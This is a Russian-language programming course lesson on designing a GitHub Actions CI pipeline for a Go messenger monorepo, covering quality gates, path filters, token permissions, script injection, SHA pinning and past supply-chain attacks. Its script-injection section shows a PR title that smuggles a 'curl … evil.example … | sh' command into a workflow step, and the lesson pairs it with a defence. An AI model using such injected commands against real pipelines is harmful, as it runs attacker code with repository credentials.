

<script setup>
import CiGraph from '../../viz/scenes/CiGraph.vue'
import SupplyChainSandbox from '../../viz/scenes/SupplyChainSandbox.vue'
</script>

# 1.18. CI: ворота качества, которым можно доверять

> Вывод команд, версии и теги образов в этом уроке сняты на Go 1.26.9 (тег `m01-l18`): состояние репозитория на тот момент. С модуля 1.5 весь репозиторий на одной версии Go — сейчас 1.27.3; решение записано в ADR-0011.

## <Part kind="problem" /> Проблема: «у меня тесты проходили»

За семнадцать уроков у мессенджера накопилось много проверок. Есть `gofmt`, `go vet`, `golangci-lint` с правилами слоёв (урок 1.1). Есть тесты с детектором гонок (урок 1.6) и сверка сгенерированного кода с контрактом OpenAPI (урок 1.9). Есть сборка образа, `trivy` и smoke-тест (уроки 1.16 и 1.17). Все они запускаются руками: `npm run check:messenger`, `check:labs`, `check:images`. Пока проект ведёт один аккуратный человек, этого как будто хватает. Посмотрим на три истории. Каждая из них случается в любой команде, и в каждой виноват не человек, а то, что проверка была необязательной.

**Забытый `go generate`.** Вы добавили поле в `api/openapi.yaml`, поправили обработчик и запустили тесты. Всё зелёное. Но код в `gen/` остался старым: генератор вы не запускали. Компилятор доволен, ведь старый код по-прежнему компилируется. Тесты довольны, потому что проверяют то, что есть, а не то, что обещано в контракте. Контракт и код разошлись молча. Узнает об этом клиент, который сгенерирует SDK по новому контракту.

**Гонка, которая видна только с `-race`.** `go test ./...` прошёл. А `go test -race ./...` вы не запускали: он медленнее, и «там же ничего не поменялось». <T id="data-race">Гонка данных</T> не роняет тесты. Она тихо портит память раз в тысячу запусков, и ловит её только <T id="race-detector">детектор гонок</T>, который следит за доступами к памяти во время выполнения (урок 1.6).

**Уязвимость, о которой никто не спрашивал.** Вот что `govulncheck` нашёл в мессенджере на машине автора. Здесь стоит Go 1.26.5, и обновить его было «некогда»:

```text
$ go run golang.org/x/vuln/cmd/govulncheck@v1.8.0 ./...
=== Symbol Results ===

Vulnerability #1: GO-2026-6617
    HTTP/2 server crash due to HPACK encoder race in net/http
  More info: https://pkg.go.dev/vuln/GO-2026-6617
  Standard library
    Found in: net/http@go1.26.5
    Fixed in: net/http@go1.26.9
    Example traces found:
      #1: internal/chat/adapters/httpapi/gen/api.gen.go:358:56: gen.ServerInterfaceWrapper.CreateChat calls http.CanonicalHeaderKey
…
Your code is affected by 14 vulnerabilities from the Go standard library.
This scan also found 3 vulnerabilities in packages you import and 5
vulnerabilities in modules you require, but your code doesn't appear to call
these vulnerabilities.
Use '-show verbose' for more details.
exit status 3
```

<N>14</N> уязвимостей стандартной библиотеки, и наш код вызывает уязвимые функции. Все они закрыты в патчах 1.26.6–1.26.9. Код мессенджера ни при чём. Дело в компиляторе на машине, где собирают бинарь.

Что общего у трёх историй? Каждую проверку **можно** было запустить, просто не запустили. Ручная проверка держится на памяти и дисциплине, а они подводят именно тогда, когда нужнее всего: в спешке, вечером, перед релизом. Решение — сделать проверки не вежливой просьбой, а условием. Изменение попадает в `main`, только если машина прогнала все проверки на чистом окружении и они прошли. Это и есть <T id="ci">непрерывная интеграция (CI)</T>. Её смысл не в YAML-файле. CI — это **контракт команды**: «зелёный `main` можно выкатывать, а красное в `main` не попадает». У нас пока команда из одного человека. Но уже в уроке 1.19 появятся боты, которые сами открывают pull request'ы, и им «я проверил локально» сказать нечем.

В этом уроке мы напишем `.github/workflows/ci.yml` для нашего репозитория, где живут и мессенджер, и курс, и лабы. Разберём, как устроен GitHub Actions. Научимся пропускать ненужные проверки так, чтобы пропуск не ломал защиту ветки. И отдельно поговорим о безопасности самого CI: в 2025 и 2026 годах атаки через него задели десятки тысяч репозиториев.

## <Part kind="theory" /> CI и CD: что проверяем на каждом изменении

Термин «непрерывная интеграция» придумали в 1990-х, в экстремальном программировании (XP). Тогда команды неделями вели свои ветки и потом мучительно их сливали. Идея была радикальной: сливать изменения в общую ветку **часто**, хотя бы раз в день, и каждый раз автоматически проверять, что всё собирается и тесты проходят. Чем меньше изменение, тем легче найти, что его сломало. Мартин Фаулер в статье «Continuous Integration» называет две опоры практики: самопроверяющуюся сборку и быструю обратную связь. Кент Бек сформулировал ориентир «десятиминутной сборки» (ten-minute build): если проверка идёт дольше, разработчики перестают её ждать и переключаются на другое.

У CI есть продолжение — <T id="cd">непрерывная доставка (CD)</T>. Каждое изменение, прошедшее проверки, автоматически превращается в готовый к выпуску артефакт: у нас это образ в реестре и сайт курса. Им займётся урок 1.19. Граница между ними такая:

| | CI (этот урок) | CD (урок 1.19) |
|---|---|---|
| Когда | на каждый pull request и коммит `main` | после зелёного CI на `main` и на тег релиза |
| Что делает | собирает, тестирует, сканирует; **ничего не публикует** | публикует образ, подписывает, выкладывает курс |
| Права | только чтение | запись в реестр, подпись, Pages |
| Цена ошибки | красный PR | плохой артефакт у пользователей |

Различие в правах — не формальность. CI запускается на **чужой** код: pull request ещё никто не одобрил, в нём может быть что угодно. Поэтому CI получает минимум прав, а публикация живёт отдельно. Вернёмся к этому в разделе о безопасности.

Почему CI должен быть быстрым? Проверка, которая идёт час, перестаёт быть воротами. Её начинают обходить («смержу, потом посмотрю»), и красный статус теряет смысл. Поэтому на каждом изменении гоняют то, что быстро и ловит частые ошибки: линтеры, юнит-тесты, сборку. Медленное (нагрузочные тесты, долгие сценарии) переносят на `main` или в ночной прогон. Наш CI укладывается в несколько минут, поэтому на PR мы гоняем всё. Как поступать, когда станет медленно, — в разделе «Компромисс».

## <Part kind="theory" /> GitHub Actions: событие, workflow, джобы, шаги

GitHub Actions — встроенная в GitHub система, которая выполняет <T id="pipeline">конвейер (pipeline)</T>. Конвейер описан YAML-файлом в `.github/workflows/` и лежит рядом с кодом. Его меняют тем же pull request'ом, что и код, и он проходит то же ревью.

### Четыре уровня

Удобная аналогия — ресторанная кухня. **Событие** (event) — заказ: `pull_request` (открыли или обновили PR), `push` (коммит в ветку), `workflow_dispatch` (кнопка «Run workflow»), `schedule` (по расписанию). **Workflow** — меню на этот заказ, то есть один YAML-файл: на какие события он реагирует и что делать. Workflow состоит из **джоб** (<T id="ci-job">CI-джоба</T>), это отдельные повара. Каждая джоба — последовательность **шагов** (steps), рецепт одного повара.



Где аналогия перестаёт работать: повара на кухне делят холодильник и плиту, а джобы не делят **ничего**. Каждая выполняется на своей машине. Если одной джобе нужен результат другой, его надо явно передать: через `outputs` (короткие строки) или артефакт (файлы).

### Раннер: свежая машина на каждую джобу

Джоба выполняется на <T id="runner">раннере</T>. Для публичного репозитория GitHub бесплатно даёт стандартный Linux-раннер: 4 процессора, 16 ГБ памяти и 14 ГБ SSD. Документация GitHub подчёркивает главное: каждый раннер — это **новая виртуальная машина**. Она создаётся под джобу и уничтожается после неё. Отсюда три следствия:

- **чистое окружение.** Нет ваших локальных настроек, забытых файлов в `gen/` и прогретого кэша тестов. Если сборка прошла на раннере, она пройдёт у любого. Это главное отличие CI от «у меня работает»;
- **ничего не переживает джобу,** кроме явно сохранённого кэша и артефактов;
- **на раннере есть `sudo` без пароля** и предустановлены Docker, Go, Node, `git`, `curl` и сотни других инструментов. Список ведётся в репозитории `actions/runner-images`. Поэтому сценарий лабы 1c, которому нужен privileged-контейнер с настоящими namespaces и cgroup, на раннере работает: это наша собственная VM.

Метку раннера мы пишем точно: `runs-on: ubuntu-24.04`, а не `ubuntu-latest`. Метка `latest` однажды переедет на следующую версию Ubuntu, и CI сломается в день, когда в коде ничего не менялось. Закреплённая метка меняется только нашим коммитом.

### `uses` и `run`

Шаг бывает двух видов. `run:` — команда оболочки (bash на Linux), её мы пишем сами. `uses:` — готовое **действие** (action), чужая программа с входами `with:`. `actions/checkout` клонирует репозиторий, `actions/setup-go` ставит Go, `golangci/golangci-lint-action` ставит и запускает линтер. Действия бывают трёх видов:

- **JavaScript** (`runs.using: node24`): программа на Node, которая выполняется прямо на раннере;
- **составные** (composite): набор шагов, которые сами могут вызывать другие действия;
- **Docker**: шаг в контейнере.

Запомните про составные действия: `aquasecurity/trivy-action`, которым мы сканируем образ, — составное, и внутри оно вызывает ещё одно действие, `aquasecurity/setup-trivy`. Выполняется не только код, который вы видите в своём `uses:`, но и всё, что он подтягивает. Это транзитивные зависимости конвейера. В разделе о безопасности именно они окажутся слабым местом.

### Контексты и выражения

Внутри YAML можно писать **выражения** <code v-pre>${{ … }}</code>. Они читают **контексты**: `github` (событие, ветка, SHA коммита), `env` (переменные), `needs` (результаты и выходы предыдущих джоб), `steps` (выходы шагов этой джобы), `secrets`. Выражение <code v-pre>${{ github.event_name == 'pull_request' }}</code> даёт `true` или `false`. Функции `always()`, `success()`, `failure()`, `cancelled()` смотрят на состояние прогона.

Важная деталь, к которой мы вернёмся: выражение вычисляется **до** запуска шага, и его результат подставляется в текст как есть. Если написать <code v-pre>run: echo "${{ github.event.pull_request.title }}"</code>, оболочка получит скрипт, в который уже вклеен заголовок PR. Это простая текстовая подстановка, никакого экранирования.

### Порядок и данные: `needs`, `outputs`, артефакты, кэш

Джобы по умолчанию стартуют **параллельно**. `needs: changes` говорит: «эта джоба ждёт `changes`», и тогда в ней доступны `needs.changes.outputs.*` и `needs.changes.result`. Результат джобы — одно из четырёх значений: `success`, `failure`, `cancelled` или `skipped`. Последнее значит, что её условие `if:` оказалось ложным. Это различие станет ключевым через раздел.

Данные между джобами и прогонами живут в трёх местах, и путать их не надо:

| Что | Для чего | Жизнь | У нас |
|---|---|---|---|
| `outputs` джобы | короткие строки для следующих джоб | один прогон | флаги `changes` |
| артефакт (`actions/upload-artifact`) | файлы-результаты, которые скачивает человек или другая джоба | дни (мы ставим 14, у публичных репозиториев умолчание — 90) | `coverage.out` |
| кэш | ускорение следующих прогонов; потерять его не страшно | пока не вытеснен | модули Go, npm, слои BuildKit |

Кэш — это оптимизация, а не хранилище: GitHub вытесняет старые записи, и прогон обязан работать и с пустым кэшем. Кэш берётся по **ключу**. `setup-go` строит его из версии Go, ОС и хеша файла из `cache-dependency-path`, у нас `messenger/go.sum`. Поменялись зависимости — поменялся хеш, и создаётся новый кэш. `setup-node` с `cache: npm` так же хеширует `package-lock.json`. BuildKit (урок 1.16) умеет хранить кэш слоёв образа в том же хранилище: `cache-to: type=gha`.

### Сроки и параллельные прогоны

У джобы есть `timeout-minutes`. Умолчание — 360 минут, то есть зависшая джоба шесть часов держит раннер, а PR висит в ожидании. Поэтому у каждой нашей джобы свой срок, с запасом в 2–3 раза над обычным временем. `concurrency` объединяет прогоны в группу. Мы ставим группу `ci-<ref>`, и новый пуш в PR отменяет прогон для устаревшего коммита: зачем досчитывать то, что уже никому не нужно. На `main` прогоны не отменяются, потому что у каждого коммита `main` должен быть свой результат.

## <Part kind="theory" /> Ворота качества мессенджера

Каждая джоба нашего CI — **ворота** (quality gate): проверка, которая должна пройти, чтобы изменение попало в `main`. Хорошие ворота ловят конкретный класс ошибок, который другие ворота пропускают. Вот наши, и что каждые из них ловят:

| Джоба | Что запускает | Что ловит | Без неё |
|---|---|---|---|
| `messenger-lint` | `golangci-lint` 2.12.2 с `.golangci.yml` | нарушение границ слоёв (`depguard`), незакрытые тела ответов (`bodyclose`), HTTP без контекста (`noctx`), неправильное сравнение ошибок (`errorlint`) | домен импортирует `net/http`, и никто не заметил |
| `messenger-test` | `go test -race -count=1` + покрытие | логические ошибки и гонки данных | гонка живёт в проде и проявляется под нагрузкой |
| `messenger-generate` | `go generate`, затем `git diff --exit-code` | <T id="code-generation">сгенерированный код</T> разошёлся с контрактом `openapi.yaml` | история «забытый `go generate`» |
| `messenger-vuln` | `govulncheck` v1.8.0 | известные уязвимости в коде, который **вызывается** | история «14 уязвимостей» |
| `image` | сборка образа, `trivy`, `scripts/smoke.sh` | Dockerfile не собирается; HIGH/CRITICAL <T id="cve">CVE</T> с исправлением в слоях образа; контейнер не становится healthy, API не отвечает, остановка не с кодом 0 | образ собирается только у автора |
| `course` | `npm test`, `typecheck`, `check:go`, `check:refs`, `build` | сломанные тесты сцен, ошибки типов, некомпилируемые Go-фрагменты в уроках, битые ссылки `<<<` на код, неизвестный термин | урок показывает пустой блок кода |
| `labs` | `node scripts/check-labs.ts` | лабы не форматированы, не проходят `vet`/`-race`, сценарий 1c с настоящими namespaces не проходит | лаба ломается у ученика |
| `workflows` | `actionlint` | синтаксис workflow, типы выражений, обращения к несуществующим `outputs`, подстановка недоверенных данных в `run:`, ошибки shell через `shellcheck` | опечатка в `ci.yml` всплывает только на GitHub |

Несколько пояснений, без которых таблица остаётся заклинанием.

**Зачем `-count=1`.** Go кэширует результаты тестов: если ни код, ни тесты не менялись, `go test` печатает `(cached)` и ничего не запускает. Документация `go test` называет `-count=1` идиоматичным способом отключить этот кэш. На свежем раннере кэша тестов обычно нет, но `setup-go` восстанавливает кэш сборки Go, а вместе с ним и кэш тестов. CI должен проверять код, а не вспоминать прошлый результат.

**Почему `git diff`, а не «сравнить до и после».** Локальный `check:messenger` сравнивает файлы до и после `go generate` в вашем рабочем дереве. Если вы сами отредактировали `gen/` руками, а потом запустили генератор, он «ничего не изменит», и проверка пройдёт. На чистом checkout сравнение идёт с тем, что **закоммичено**, и оно строгое. Вторая строка шага, `test -z "$(git status --porcelain)"`, ловит ещё и новые неотслеживаемые файлы: `git diff` их не видит.

**Что значит «вызывается» у `govulncheck`.** Сканеры зависимостей обычно смотрят на список модулей: есть в `go.sum` уязвимая версия — тревога. `govulncheck` строит граф вызовов и сообщает о проблеме, только если ваш код **достижимым путём** вызывает уязвимую функцию. В выводе выше это видно по строкам `Example traces found`. А вот как выглядит прогон тем же Go, что будет в CI, — 1.26.9:

```text
$ GOTOOLCHAIN=go1.26.9 go run golang.org/x/vuln/cmd/govulncheck@v1.8.0 ./...
=== Symbol Results ===

No vulnerabilities found.

Your code is affected by 0 vulnerabilities.
This scan also found 0 vulnerabilities in packages you import and 1
vulnerability in modules you require, but your code doesn't appear to call these
vulnerabilities.
```

<N>0</N> уязвимостей в нашем коде. Одна найдена в модуле `golang.org/x/crypto`, это `GO-2026-5932` про пакет `openpgp`. Мы этот пакет не импортируем, поэтому прогон не падает. Код выхода `govulncheck` при найденной уязвимости — 3 (в первом выводе `exit status 3`), и любой ненулевой код валит шаг CI.

**Почему Go — `1.26.x`, а не версия из `go.mod`.** У `setup-go` есть вход `go-version-file: go.mod`. Он соблазнителен, но в `go.mod` строка `go 1.26.0` означает **минимальную** версию языка, а не ту, которой надо собирать. `setup-go` поставил бы ровно 1.26.0, и `govulncheck` справедливо нашёл бы всё, что закрыто в патчах. `1.26.x` — диапазон: «последний патч ветки 1.26». Есть тонкость, которую легко пропустить. `setup-go` без `check-latest: true` сначала ищет подходящую версию в кэше инструментов **образа раннера**, а образы обновляются раз в неделю-две. Для тестов отставание на патч не страшно. А для `govulncheck` важен именно последний патч, поэтому в джобе `messenger-vuln` стоит `check-latest: true`: проверить манифест версий и скачать свежую, если в образе старая.

**`trivy` и `ignore-unfixed`.** Образ мессенджера — distroless (урок 1.16), пакетов ОС в нём почти нет, но `trivy` проверяет и их, и модули Go внутри бинаря. `ignore-unfixed: true` пропускает уязвимости, для которых исправления ещё нет. Сделать с ними мы ничего не можем, а ворота, которые краснеют без возможности починить, приучают их игнорировать.

**Smoke-тест — тот же, что вы запускали руками.** `scripts/smoke.sh` из урока 1.17 ждёт статуса `healthy`, проверяет `/readyz` и `POST /v1/users` → 201, а потом останавливает контейнер с `docker stop -t 30` и требует код выхода 0. На раннере работает «голый» Docker Engine, без Docker Desktop. Поэтому скрипт выдаёт одноразовому ключу права 0444: bind mount сохраняет владельца хоста, и процесс с UID 65532 не прочитал бы файл 0600 (урок 1.17). С модуля 2a скрипт делает больше: поднимает рядом одноразовый PostgreSQL, применяет миграции (`migrate up`), проходит сценарий API — регистрация, вход, личный чат, сообщение, лента — и проверяет порядок остановки в журнале: HTTP → фоновые компоненты → пул базы (урок [2.9](../02-database/09-postgres-adapter)).

<Callout type="simplified">

Таблица называет главное, что ловит каждая джоба, а не всё. `golangci-lint` в режиме `standard` включает ещё `govet`, `staticcheck`, `errcheck`, `ineffassign` и `unused`. `npm run build` ловит неизвестный id термина, потому что сборка падает. Полный список правил — в `messenger/.golangci.yml` и в скриптах `course/scripts/`.

</Callout>

## <Part kind="theory" /> Монорепозиторий и фильтр путей

Наш репозиторий — <T id="monorepo">монорепозиторий</T>: мессенджер, курс и лабы живут вместе. Это удобно: правка контракта API, кода и урока, который его показывает, попадает в одном коммите. Цена в том, что правка опечатки в уроке не должна ждать `go test -race`, сборку образа и сценарий лабы в privileged-контейнере. Это минуты раннера и минуты вашего ожидания.

Значит, нужен **фильтр путей**: запускать джобу, только если PR трогает её файлы. У GitHub Actions есть встроенный фильтр на уровне всего workflow, `on.pull_request.paths`. Выглядит идеально. Но он ломается о защиту ветки, и чтобы понять как, нужно знать, что такое обязательная проверка.

### Обязательная проверка и три вида «пропуска»

Защита ветки `main` (настроим в уроке 1.19) перечисляет <T id="required-check">обязательные проверки (required status checks)</T>. Это имена проверок, каждая из которых должна отчитаться «успех», иначе кнопка слияния заблокирована. Проверку создаёт джоба: её имя и есть имя проверки.

Теперь главное. Что видит защита ветки, если проверка **не запускалась**? GitHub Docs отвечают на это в статье «Troubleshooting required status checks» таблицей, и её стоит запомнить дословно:

| Что случилось | Что видит обязательная проверка |
|---|---|
| джоба пропущена условием `if:` | джоба отчитывается **Success** |
| workflow пропущен фильтром путей (`on.<событие>.paths`), фильтром веток или сообщением коммита (`[skip ci]`) | проверки остаются в **Pending** и блокируют слияние |

Разница принципиальная. В первом случае workflow запустился, джоба создана и решила, что делать ей нечего. Отчитаться есть кому. Во втором workflow не запустился вовсе. Джоб не создано, и никто никогда не пришлёт статус, которого ждёт защита ветки. В интерфейсе PR такая проверка висит как «Expected — Waiting for status to be reported». Документация прямо советует не делать обязательными workflow, которые могут быть пропущены.

Отсюда первое решение: **фильтр — на уровне джоб, а не workflow.** Workflow `ci` стартует на каждый PR. Первой идёт джоба `changes`. Действие `dorny/paths-filter` получает список изменённых файлов PR через API GitHub и сверяет его с фильтрами `messenger`, `course`, `labs`, `workflows`. Получаются флаги `'true'`/`'false'`, остальные джобы читают их в `if:` и при `'false'` пропускаются, то есть отчитываются Success. На `push` в `main` и при ручном запуске фильтр не вызывается, а все флаги — `true`: `main` обязан быть проверен целиком.

Фильтры не совпадают с каталогами один к одному, и это сделано намеренно. В фильтр `course` входят `messenger/**` и `labs/**`: уроки подключают их код через `<<<`, и правка мессенджера может сломать урок. В каждый фильтр, кроме `workflows`, входит сам `ci.yml`: если вы меняете конвейер, прогнать надо всё, что он описывает.

### Зачем агрегирующая джоба `ci-ok`

Хорошо, фильтр на уровне джоб. Тогда можно сделать обязательными все девять джоб по именам? Пропущенные отчитаются Success, и всё сойдётся. Есть две беды.

**Первая — хрупкость.** Имена джоб зашиты в настройки репозитория. Переименовали `messenger-test` в `go-test` — защита ветки ждёт проверку со старым именем, которая больше никогда не придёт, и все PR встали. Добавили десятую джобу — забыли внести её в настройки, и она не обязательна. Настройки репозитория не проходят ревью вместе с кодом.

**Вторая — опаснее.** Что если упадёт сама джоба `changes`, например API GitHub ответит ошибкой? Все джобы с `needs: changes` будут **пропущены**: по правилам GitHub Actions джоба не запускается, если зависимость не прошла. А пропущенная джоба — Success. Получаем PR, у которого все обязательные проверки зелёные, хотя не выполнилась ни одна. Ворота открыты настежь.

Решение — ещё одна джоба, `ci-ok`, и только она одна обязательна:

- `needs:` — все остальные джобы, включая `changes`;
- `if: always()` — запускаться при любых итогах зависимостей. Без этого она сама была бы пропущена при первой же упавшей зависимости, а значит, стала бы Success;
- шаг смотрит на `needs.*.result` и падает, если среди итогов есть `failure` или `cancelled`. `skipped` и `success` — норма.

Теперь в защите ветки одно стабильное имя, `ci-ok`. Джобы можно добавлять и переименовывать без похода в настройки: вы только дописываете `needs:` у `ci-ok` в том же PR, и это видно на ревью. Падение `changes` даёт `failure` в итогах, и `ci-ok` краснеет. Отменённый прогон тоже даёт красный `ci-ok`. Обратите внимание: мы пишем `always()`, а не популярное `!cancelled()`. При `!cancelled()` джоба `ci-ok` в отменённом прогоне не запустилась бы вовсе, и покраснеть было бы некому: решение о статусе приняли бы правила GitHub для невыполненной джобы, а не наш код.

<Callout type="idea">

Тот же приём называют по-разному: «aggregate job», «all-green», «required check job», у проектов на GitHub встречаются имена `ci-ok`, `all-checks`, `ci-success`. Суть одна: защита ветки знает одно имя, а логику «что считать успехом» хранит сам workflow — в коде, под ревью.

</Callout>

## <Part kind="theory" /> Безопасность конвейера

CI — самый привилегированный и самый недооценённый участник разработки. Он выполняет **чужой** код (pull request, который ещё никто не одобрил, и десяток сторонних действий), и у него есть токен с доступом к репозиторию. Атакующему не нужно взламывать ваш сервер, если можно попросить ваш CI выполнить его код. Разберём защиту слой за слоем.

### `GITHUB_TOKEN` и `permissions`

На каждую джобу GitHub выпускает токен `GITHUB_TOKEN`. Он действует только в этом репозитории и истекает, когда джоба заканчивается. Что токен может, задаёт ключ `permissions`. Набор прав зависит от настроек репозитория: у новых репозиториев умолчание — только чтение, у старых бывает чтение и запись. Поэтому полагаться на умолчание нельзя: права пишутся явно, в файле, под ревью. Это <T id="least-privilege">принцип минимальных привилегий</T>:

- на уровне workflow — `permissions: contents: read`, то есть только чтение кода;
- джобе, которой нужно больше, права выдаются отдельно. Ключ `permissions` у джобы **заменяет** набор workflow, а не дополняет его. Всё, что не перечислено, становится `none`. Наша `changes` получает только `pull-requests: read`: этого хватает, чтобы прочитать список файлов PR. `contents` ей не нужен вовсе, ведь checkout она не делает.

OpenSSF Scorecard, автоматическая оценка безопасности open-source-проектов, проверяет ровно это правилом Token-Permissions. Высший балл получает проект, у которого права на уровне workflow только на чтение, а права на запись объявлены у отдельных джоб. Токен только на чтение публичного репозитория, даже утёкший, атакующему почти ничего не даёт.

### `pull_request` против `pull_request_target`

Репозиторий публичный, значит PR может прийти из чужого форка. У GitHub для этого два события, и разница между ними — это разница между безопасным и взломанным репозиторием:

| | `pull_request` | `pull_request_target` |
|---|---|---|
| Чей workflow выполняется | из ветки PR (можно изменить) | из базовой ветки (`main`) |
| Код по умолчанию | merge-коммит PR | базовая ветка |
| `GITHUB_TOKEN` для PR из форка | только чтение | права базового репозитория, вплоть до записи |
| Секреты для PR из форка | не передаются (кроме `GITHUB_TOKEN`) | передаются |

`pull_request` изолирует форк: даже если автор PR перепишет `ci.yml` в своей ветке, он получит токен только на чтение и никаких секретов. `pull_request_target` придуман для задач вроде «поставить метку на PR»: ему нужны права, но код PR он выполнять не должен. Беда начинается, когда в таком workflow делают checkout кода из PR и запускают его, например `npm install` или тесты. Тогда чужой код выполняется с секретами и токеном на запись. Такой класс уязвимостей GitHub Security Lab назвал **pwn request**. Документация GitHub советует не использовать `pull_request_target` без необходимости и никогда — с недоверенным кодом. `actions/checkout` v7 стал сам защищаться от этой ошибки. Чтобы выкачать код PR из форка в workflow на `pull_request_target` или `workflow_run`, нужно явно выставить вход `allow-unsafe-pr-checkout: true`, а в описании входа прямо упомянуты «pwn request vulnerabilities».

Наше правило: CI — только на `pull_request`, `pull_request_target` в репозитории не используется.

Кстати, при `pull_request` по умолчанию проверяется не ветка PR сама по себе, а **merge-коммит**: результат её слияния с текущей базовой веткой (`refs/pull/<N>/merge`). CI отвечает на вопрос «что будет в `main` после слияния», а не «работает ли ветка».

### Подстановка выражений в `run:` — инъекция

Помните, что выражение подставляется в текст скрипта до запуска оболочки? Заголовок PR, имя ветки, текст комментария пишет автор PR. Пусть шаг выглядит так:

```text
run: echo "Проверяем PR — ${{ github.event.pull_request.title }}"
```

Назовём PR `x"; curl -s https://evil.example/s.sh | sh; echo "`. Оболочка получит три команды, и вторая выполнит скрипт атакующего с токеном джобы. Это классическая **инъекция в скрипт** (script injection). Лечение рекомендует документация GitHub: передать значение через промежуточную переменную окружения. Тогда в текст скрипта попадает `"$TITLE"`, а само значение приходит в окружение процесса и в разбор команды не участвует:

```text
env:
  TITLE: ${{ github.event.pull_request.title }}
run: echo "Проверяем PR — $TITLE"
```

В нашем `ci.yml` так передаются даже безобидные на вид итоги `needs.*.result` в `ci-ok`. Правило простое и проверяемое: **в `run:` нет <code v-pre>${{ }}</code> с данными событий и `needs`**. `actionlint` ловит нарушение автоматически, вывод — в разделе «Код».

### Закрепление действий по SHA

`uses: actions/checkout@v7` выглядит как «версия 7». Но `v7` — это git-тег, а тег в git **изменяем**: владелец репозитория (или тот, кто украл его токен) может перевесить его на любой коммит. Следующий запуск вашего workflow выполнит новый код, хотя ваш файл не менялся ни на байт. Ветка (`@main`) ещё хуже, она меняется с каждым коммитом. Неизменяем только полный SHA коммита: 40 шестнадцатеричных символов — это хеш содержимого, и подменить код под тем же хешем нельзя. Это <T id="action-pinning">закрепление action по SHA</T>:

```text
uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
```

Комментарий с версией нужен людям и ботам обновления. Почему это не паранойя, показывают два реальных инцидента — две <T id="supply-chain-attack">атаки на цепочку поставок</T>, когда вредоносный код приходит не напрямую, а через инструмент, которому вы доверяете. Второй касается действия, которое стоит в нашем `ci.yml`.

**tj-actions/changed-files, март 2025 (CVE-2025-30066, GHSA-mrrh-fwg8-r2c3).** Популярное действие, которое, как и наш `paths-filter`, выдаёт список изменённых файлов. По данным advisory, им пользовались больше 23 000 репозиториев. 14–15 марта 2025 года злоумышленник перевесил теги действия, от старых до `v45.0.7`, на свой коммит `0e58ed86…`. Вредоносный код скачивал скрипт `memdump.py`, читал память процесса Runner.Worker на раннере (там лежат все секреты джобы), дважды кодировал найденное в base64 и печатал в журнал сборки. Двойной base64 нужен, чтобы обойти маскирование: GitHub заменяет в журнале на `***` значения известных ему секретов, но не их закодированные варианты. У публичных репозиториев журналы видны всем, так что секреты становились публичными. Как злоумышленник получил доступ, выяснили позже. Расследование Unit 42 (Palo Alto Networks) восстановило цепочку: украденный токен из workflow проекта SpotBugs, потом компрометация действия `reviewdog/action-setup` (CVE-2025-30154), которым пользовался сам `tj-actions`, потом токен бота `tj-actions`. Первоначальной целью, по данным Unit 42, был workflow проекта `coinbase/agentkit`.

Что спасло тех, кого не задело? Закрепление по SHA коммита до атаки: перевешенный тег не меняет коммит, на который указывает ваш SHA. Обнаружили атаку по сетевой активности: инструмент StepSecurity Harden-Runner заметил неожиданное обращение раннера к `gist.githubusercontent.com`. Advisory советует всем, кто запускал действие в эти дни, поискать в журналах закодированный вывод и **сменить все секреты**, которые могли утечь.

**aquasecurity/trivy-action, март 2026 (CVE-2026-33634, GHSA-69fq-xp46-6x23).** Год спустя то же самое случилось с действием, которым мы сканируем образ. 19 марта 2026 года злоумышленник с украденными учётными данными перевесил 76 из 77 тегов `aquasecurity/trivy-action` и все 7 тегов `aquasecurity/setup-trivy` на код, крадущий учётные данные, и выпустил вредоносный бинарь trivy v0.69.4. Advisory подробно перечисляет, кого это не задело. Тег `0.35.0` защитила функция неизменяемых релизов GitHub (immutable releases). А ещё — тех, кто закрепил `trivy-action` по SHA коммита после 2025-04-09. С этой даты сам `trivy-action` закрепляет вложенный `setup-trivy` по SHA. Помните про транзитивные зависимости? Закрепить внешнее действие мало: оно должно закреплять свои. Мы проверили это у нашей версии: в `action.yml` по закреплённому SHA стоит `uses: aquasecurity/setup-trivy@3fb12ec1… # v0.2.6`.

У закрепления по SHA есть тонкость. GitHub показывает коммиты форков по адресу основного репозитория, поэтому SHA из чужого форка формально «работает» в `uses:` основного репозитория. Это так называемый imposter commit, и в атаке на trivy злоумышленник использовал именно такой коммит, подменив ссылку на `actions/checkout`. Документация GitHub предупреждает: SHA надо брать из репозитория самого действия, а не форка. Мы берём SHA с тега релиза в репозитории действия.

У закрепления есть и обратная сторона: версии застывают и копят известные уязвимости. Её снимает <T id="dependency-update">автообновление зависимостей</T>. Dependabot раз в неделю открывает PR с новым SHA и новой версией в комментарии, PR проходит тот же CI, а человек читает изменения. Настроим в уроке 1.19. GitHub развивает и следующий шаг — lockfile зависимостей workflow (`.github/workflows/actions.lock`). Он закрепляет и транзитивные действия и проверяет, что репозиторий за именем не подменили. На момент урока он в public preview, поэтому мы остаёмся на SHA.

Инструменты, которые мы ставим не через `uses:`, тоже закреплены: `golangci-lint` и `trivy` — входом `version`, а `actionlint` и `govulncheck` — версией модуля в `go run …@v1.7.12`. Скачанный так модуль Go сверяется с публичной базой контрольных сумм `sum.golang.org`, поэтому Scorecard (правило Pinned-Dependencies) считает полную semver-версию модуля закреплённой.

### `persist-credentials: false`

`actions/checkout` по умолчанию оставляет `GITHUB_TOKEN` в конфигурации git: так следующие шаги могут делать `git push` без дополнительной настройки. С v6 токен лежит не прямо в `.git/config`, а в отдельном файле под `$RUNNER_TEMP`, но смысл тот же: до конца джобы он на диске раннера, и `git` подставит его в любой запрос к GitHub. Значит, его может достать любой следующий шаг, в том числе чужое действие. Нам `push` из CI не нужен, поэтому у каждого `checkout` в нашем workflow стоит `persist-credentials: false`: токен используется для клонирования и нигде не остаётся.

## <Part kind="theory" /> Защита ветки: CI имеет смысл, только если он обязателен

